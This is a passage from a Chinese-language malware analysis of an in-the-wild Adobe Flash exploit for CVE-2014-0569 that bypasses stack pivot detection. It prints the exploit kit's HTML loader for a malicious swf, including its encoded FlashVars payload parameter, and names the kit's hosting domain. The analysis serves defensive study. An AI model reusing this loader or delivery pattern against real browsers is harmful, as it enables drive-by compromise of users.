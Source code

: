 
## 0x04 Stack Pivot 检测绕过

* * *

我们现在来看最近刚发现的利用 CVE-2014-0569 漏洞的样本，它使用了可以绕过 stack pivot 检测的 ROP 载荷。这种 ROP 载荷之前并没有看到过。之前它只是一种概念性的证明，而现在已经被用于实际的漏洞利用中。

我在下面的地址处找到了该漏洞样本完整的网络流量的 PCAP 文件：

http://malware-traffic-analysis.net/2014/10/30/index2.html

正如下图看到的，该漏洞利用工具部署在 kethanlingtoro.eu 处。

![enter image description here](img/img11_u39_png.jpg)

下面的 HTML 代码用于在浏览器中加载恶意 swf 文件，触发在 Adobe Flash Player 插件中的漏洞。

```
<html>
<body>
<objectclassid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000"codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab"width="10"height="10"/><paramname="movie"value="Main.swf"/>
<paramname="allowFullScreen"value="false"/>
<paramname="allowScriptAccess"value="always"/>
<paramname="FlashVars" value="exec=3558584f737a7a6c415835233d57263d31585548553941347a6e42644c4c365a6b646a6b4c507a57557257236b394f354f"/>
<paramname="Play"value="true"/>
<embedtype="application/x-shockwaveflash"width="10"height="10"src="Main.swf" allowScriptAccess="always" FlashVars="exec=3558584f737a7a6c415835233d57263d31585548553941347a6e42644c4c365a6b646a6b4c507a57557257236b394f354f" Play="true" allowFullScreen="false"/>
</object>
</body>
</html>

```

请注意上面传递给 Flash 加载器的参数是采用 FlashVars。这对与漏洞利用是需要的，如果没有它，恶意的 swf 文件将导致奔溃。

在这个例子中，恶意的 swf 文件被高度的混淆，如下图所示，常用的 Flash Decompilers 也不能成功的反编译这些代码。因此通过静态分析来定位 ROP gadgets 并不容易。
